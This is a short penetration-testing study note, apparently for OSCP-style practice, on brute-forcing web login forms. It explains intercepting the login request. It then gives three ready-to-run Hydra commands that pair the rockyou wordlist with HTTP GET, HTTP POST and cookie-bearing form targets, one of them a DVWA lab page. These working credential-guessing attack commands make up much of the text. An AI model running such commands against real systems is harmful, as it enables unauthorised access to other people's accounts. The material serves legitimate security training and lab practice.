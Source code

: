 ```yaml
---
title: "Bruteforce Authentication"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - https
  - http
  - web
  - bruteforce
  - authentication
toc: true
hide_title: true
excerpt: ""
---
```


Most web applications use one or more login forms for accessing restricted user functionality and administration panels.

When you fill out a simple web form with a username and password and then press submit, the authentication mechanism generates an HTTP GET or HTTP POST request.

This request (which contains the username, password and some other necessary values generated in the background) is sent to the webserver where the credentials are tested. **The first step in the exploitation process is to intercept the request (once the required form values have been entered and after the submit button is pressed) before it is sent to the remote server. In this way it is possible to see what values are submitted and which are required by the form.**

An attacker can modify the username and password values repeatedly and send the request to the remote server using Burp Suite or Hydra.

## HTTP-GET

```
hydra -l user -P /usr/share/wordlists/rockyou.txt -f $ip http-get /path
```

## HTTP-POST

```
hydra 10.0.0.1 http-post-form "/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid" -P /usr/share/wordlists/rockyou.txt -l admin
```

## Send request along with cookies

```
hydra 10.11.1.250 -t 2 -l admin -P /usr/share/wordlists/rockyou.txt http-form-get "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low;PHPSESSID=409e45633a8281adb8f182021cfacd14"
```
